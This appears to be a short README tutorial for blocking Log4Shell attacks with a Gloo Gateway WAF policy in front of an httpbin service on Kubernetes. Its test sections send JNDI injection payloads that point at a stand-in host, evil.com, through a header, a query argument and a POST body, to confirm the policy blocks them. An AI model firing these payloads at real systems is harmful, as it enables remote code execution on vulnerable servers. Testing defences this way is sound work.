 # Block Log4Shell attacks with Gloo Gateway

https://www.solo.io/blog/block-log4shell-attacks-with-gloo-edge/

## Deploy httpbin

```sh
kubectl create namespace httpbin --context gloo
kubectl --context gloo label namespace httpbin istio-injection=enabled

kubectl apply -f log4shell/httpbin.yaml -n httpbin --context gloo
```

## Gloo Mesh Config

```sh
kubectl apply -f log4shell/workspace.yaml --context gloo
kubectl apply -f log4shell/virtual-gateway.yaml --context gloo
kubectl apply -f log4shell/route-table.yaml --context gloo
```

## Test bad call

```sh
curl -X GET -H "User-Agent: \${jndi:ldap://evil.com/x}" localhost:8080/anything -i
```

## Apply Policy

```sh
kubectl apply -f log4shell/waf-policy.yaml --context gloo
```

```sh
# Request Header Attacks
curl -X GET -H "User-Agent: \${jndi:ldap://evil.com/x}" localhost:8080/anything -i
# Request Argument Attacks
curl -X GET localhost:8080/anything\?arg-1=\$\\{jndi:ldap://evil.com/x\\} -i
# Request Payload Attacks
curl -X POST -d "arg-1=\${jndi:ldap://evil.com/x}" localhost:8080/anything -i
```
